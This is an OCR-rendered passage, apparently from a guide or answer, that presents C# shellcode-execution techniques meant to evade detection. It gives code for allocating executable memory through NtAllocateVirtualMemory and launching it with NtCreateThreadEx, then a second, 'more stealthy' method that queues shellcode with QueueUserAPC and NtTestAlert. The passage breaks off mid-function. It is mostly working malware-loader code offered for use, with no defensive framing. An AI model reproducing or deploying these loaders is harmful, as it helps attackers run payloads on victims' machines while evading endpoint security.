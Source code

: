 #### Code Example:
```csharp
[DllImport("ntdll.dll", SetLastError = true)]
private static extern int NtAllocateVirtualMemory(IntPtr processHandle, ref IntPtr baseAddress, IntPtr zeroBits, ref uint regionSize, uint allocationType, uint protect);

[DllImport("ntdll.dll", SetLastError = true)]
private static extern int NtCreateThreadEx(out IntPtr threadHandle, uint desiredAccess, IntPtr objectAttributes, IntPtr processHandle, IntPtr startAddress, IntPtr parameter, bool createSuspended, uint stackZeroBits, uint sizeOfStackCommit, uint sizeOfStackReserve, IntPtr bytesBuffer);

// Allocate memory and execute shellcode
private void ExecuteShellcode(byte[] shellcode)
{
    IntPtr baseAddress = IntPtr.Zero;
    uint regionSize = (uint)shellcode.Length;

    // NtAllocateVirtualMemory instead of VirtualAlloc
    NtAllocateVirtualMemory((IntPtr)(-1), ref baseAddress, IntPtr.Zero, ref regionSize, 0x3000, 0x40); // MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    
    Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

    IntPtr hThread;
    // NtCreateThreadEx instead of CreateThread
    NtCreateThreadEx(out hThread, 0x1FFFFF, IntPtr.Zero, (IntPtr)(-1), baseAddress, IntPtr.Zero, false, 0, 0, 0, IntPtr.Zero);

    // Wait for the thread to finish
    WaitForSingleObject(hThread, 0xFFFFFFFF);
}
```

### 2. **Use `QueueUserAPC` and `NtTestAlert`**
This technique uses Asynchronous Procedure Calls (APC) to queue the shellcode execution in an existing thread. It can be more stealthy because it doesn’t directly create a new thread for shellcode execution.

#### Code Example:
```csharp
[DllImport("kernel32.dll")]
private static extern IntPtr OpenThread(uint dwDesiredAccess, bool bInheritHandle, uint dwThreadId);

[DllImport("kernel32.dll")]
private static extern bool QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

[DllImport("ntdll.dll", SetLastError = true)]
private static extern void NtTestAlert();

// Allocate memory and execute shellcode via QueueUserAPC
private void ExecuteShellcode(byte[] shellcode)
{
    IntPtr baseAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);  // MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

    // Get current thread
    IntPtr threadHandle = OpenThread(0x001F03FF, false, GetCurrentThreadId());

    // Queue shellcode to the thread's APC queue
    QueueUserAPC(baseAddress, threadHandle, IntPtr.Zero);

    // Trigger the APC using NtTestAlert
```